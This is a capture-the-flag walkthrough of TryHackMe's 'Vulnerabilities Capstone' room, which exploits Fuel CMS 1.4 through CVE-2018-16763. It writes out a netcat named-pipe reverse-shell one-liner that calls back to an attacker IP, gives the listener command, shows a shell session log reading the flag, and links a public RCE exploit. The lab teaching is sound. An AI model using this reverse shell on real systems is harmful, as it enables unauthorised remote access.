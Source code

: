 ```yaml
---
title: TryHackMe - Vulnerabilities Capstone
description: A walkthrough of TryHackMe's challenge "Vulnerabilities Capstone".
categories: [Walkthrough THM, Vulnerability Research Module]
tags: [Basics]
pin: false
---
```


Lab access: [https://tryhackme.com/r/room/vulnerabilitycapstone](https://tryhackme.com/r/room/vulnerabilitycapstone)


## Introduction
Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module. 

Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public. 

It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.

## Exploit the Machine (Flag Submission)

**Q: Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.**
Let's do this the way we would any other machine and start with an nmap scan:
![alt text](/assets/images/vulnerabilities_capstone_nmap.png)

We see that we have port 80 is open, so let's open a web browser and see what we find.

![alt text](/assets/images/vulnerabilities_capstone_q1.png)

Looking at the picture above we can answer the two following questions

**Q: What is the name of the application running on the vulnerable machine?**
<details><summary>Answer</summary>
Fuel CMS
</details>

---

**Q: What is the version number of this application?**
<details><summary>Answer</summary>
1.4
</details>

---

**Q: What is the number of the CVE that allows an attacker to remotely execute code on this application?**

We now have an application and a version number which should allow us to find a CVE for this

![alt text](/assets/images/vulnerabilities_capstone_ExploitDB.png)

Here we can see the CVE number 

<details><summary>Answer</summary>
CVE-2018-16763
</details>

---

**Q: Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.**

Let's try the exploit shown in the picture above.

![alt text](/assets/images/vulnerabilities_capstone_Exploit_1.png)

We get the following when running it correctly, which is not very helpful... Either we scrap this exploit and try another one, or we try to get a reverse shell using: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MY_IPADDRESS 4444 >/tmp/f` (have a look [here](https://saucer-man.com/reverse/) and try a few different vaiants).
We need to have netcat running on our end in another terminal, start it using `nc -nlvp 4444` (or with port of choice)

**Q: What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.**   

It will look something like this:
```shell
└─$ nc -nvlp 4444           
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 32850
/bin/sh: 0: can't access tty; job control turned off
$ cd /home/ubuntu
$ ls
flag.txt
$ cat flag.txt
THM{XXXXXXXXXX}
```

If you google on "Fuel CMS exploit" you will find a few exploits from gitHub as well. You could always use them instead, for example [this updated exploit from github](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated/blob/main/Fuel-Updated.py).

Happy hacking!